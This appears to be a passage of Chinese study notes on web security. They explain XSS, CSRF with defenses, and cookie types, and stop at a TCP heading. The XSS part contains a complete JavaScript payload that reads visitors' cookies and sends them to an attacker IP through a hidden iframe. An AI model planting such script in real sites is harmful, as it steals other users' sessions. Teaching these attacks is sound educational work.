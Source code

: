 ## XSS与CSRF

### XSS：跨站脚本

Cross-site scripting，通常简称为XSS，将恶意javascript代码注入网站中。

```javascript
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

上面的代码注入到评论中会使得其他用户访问这个页面会发送cookie到192.168.123.123/myxss/

### CSRF：跨站请求伪造

Cross-site request forgery，用于伪造用户的请求。

简单的CSRF攻击）：一个论坛，经过分析了解到这个论坛的删帖操作是触发` csdnblog.com/bbs/delete_article.php?id=“X"` 那么，我只需要在论坛中发一帖，包含一链接：`www.csdnblog.com/bbs/delete_article.php?id=“X" `，只要有用户点击了这个链接，那么ID为X的这一篇文章就被删掉了，而且是用户完全不知情的情况！



防御：

1. 检查http头部的referer字段，它记录了HTTP请求的来源地址。
2. 在头部添加随机生成的token字段，这个字段在用于刚登陆的时候随机生成，之后用户的请求需要带上这个token。

## Cookie

cookie是服务器发给浏览器并保存在本地的数据，用于保存用户会话状态、购物车、个性设置等。

Cookie分为两种：

1. Session Cookie: 不指定过期时间。仅在会话期内有效。关闭tabs后自动删除
2. Permanent Cookie:指定一个过期时间或者有效期。

## TCP

### TCP状态机
